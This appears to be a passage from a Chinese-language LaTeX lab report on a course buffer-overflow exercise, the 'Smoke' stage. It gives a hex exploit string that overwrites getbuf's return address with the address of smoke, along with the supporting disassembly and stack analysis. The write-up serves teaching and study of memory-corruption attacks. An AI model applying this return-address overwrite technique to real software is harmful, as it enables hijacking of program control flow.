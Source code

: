 \section{各阶段漏洞攻击原理与方法}
\begin{center}
    每阶段25分，文本10分，分析15分，总分不超过80分
\end{center}

\subsection{Smoke的破解与分析}

\textbf{文本如下：}
\begin{lstlisting}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 10 40 00 00 00 00 00
\end{lstlisting}

\textbf{分析过程：}
\begin{lstlisting}
00000000004015d5 <getbuf>:
    4015d5:	48 83 ec 28          	sub    $0x28,%rsp
    4015d9:	48 89 e7             	mov    %rsp,%rdi
    4015dc:	e8 f6 fa ff ff       	callq  4010d7 <Gets>
    4015e1:	b8 01 00 00 00       	mov    $0x1,%eax
    4015e6:	48 83 c4 28          	add    $0x28,%rsp
    4015ea:	c3                   	retq
\end{lstlisting}
从这里我们可以看到getbuf函数的栈相关情况。
\begin{tabular}{|c|c|}
    \hline 
    栈 & 位置 \\ 
    \hline 
    getbuf返回地址(0x00) & rbp \\ 
    \hline 
    (-0x04) & ... \\ 
    \hline 
    ... & ... \\ 
    \hline 
    (-0x28) & buf  \& rsp \\ 
    \hline 
\end{tabular} 

\begin{lstlisting}
0000000000401019 <smoke>:
    401019:	48 83 ec 08          	sub    $0x8,%rsp
    40101d:	bf cf 26 40 00       	mov    $0x4026cf,%edi
    401022:	e8 69 fc ff ff       	callq  400c90 <puts@plt>
    401027:	bf 00 00 00 00       	mov    $0x0,%edi
    40102c:	e8 ba 06 00 00       	callq  4016eb <validate>
    401031:	bf 00 00 00 00       	mov    $0x0,%edi
    401036:	e8 c5 fd ff ff       	callq  400e00 <exit@plt>
\end{lstlisting}

查到smoke的函数地址是0x00401019。 由于我的系统是小端序，将其按小端序重写是19 10 40 00 00 00 00 00。 将返回地址覆盖，只需要将原先的buf区域全部填0即可，0x28 = 40个字节。

